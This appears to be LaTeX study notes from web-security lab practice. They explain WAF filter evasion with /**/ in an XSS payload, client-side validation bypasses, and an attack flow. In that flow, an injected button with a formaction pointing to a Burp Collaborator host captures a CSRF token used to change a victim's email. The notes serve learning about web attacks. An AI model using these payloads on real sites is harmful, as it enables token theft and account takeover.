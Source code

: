 \documentclass{article}
\begin{document}
\begin{itemize}
\subsection*{\underline{Why /**/ is Used}}

\textbf{Purpose: Bypass Space Filtering}
\begin{lstlisting}[frame=single]
// Without comment - might be blocked:
throw onerror=alert,1337

// With comment - bypasses filters:
throw/**/onerror=alert,1337
\end{lstlisting}

\textbf{What It Achieves:}
\begin{itemize}
    \item Some WAFs block spaces between keywords
    \item \texttt{/**/} acts as a space substitute
\end{itemize}
\rule{15cm}{0.4pt}

\subsection*{\textbf{\underline{client-side validation bypass}}}
\begin{enumerate}
\item \textbf{Enabling a Disabled Button Using Developer Tools} $\Longrightarrow$
Remove the disabled attribute from the button element.
\item \textbf{Changing form input type} $\Longrightarrow$ ex. from email to text
\item \textbf{Changing form maxlength}
\item \textbf{remove or change form pattern}
\end{enumerate}

\newpage
\textbf{\underline{NOTE}} Change the payload to foo@example.com"><img src= onerror=alert(1)>, embedding it within a valid email format. This makes the input appear legitimate in order to bypass client-side validation.\\ 
\rule{15cm}{0.4pt}
\subsection*{\textbf{\underline{Attack Flow}}}
Bypass client-side validation $\Longrightarrow$ Inject malicious button $\Longrightarrow$ Redirect form to external server $\Longrightarrow$ Capture CSRF token $\Longrightarrow$ Use token to change email

\textbf{\underline{A payload to Redirect form to external server and Capture CSRF token }}
\begin{lstlisting}[frame=single]
                      <!-- By inject a button -->
https://vulnWebSite.net/my-account?email=test@test"><button formaction=
"https://BURP-COLLABORATOR-SUBDOMAIN.net" formmethod="get">Click</button>
\end{lstlisting}


\end{itemize}
\end{document}

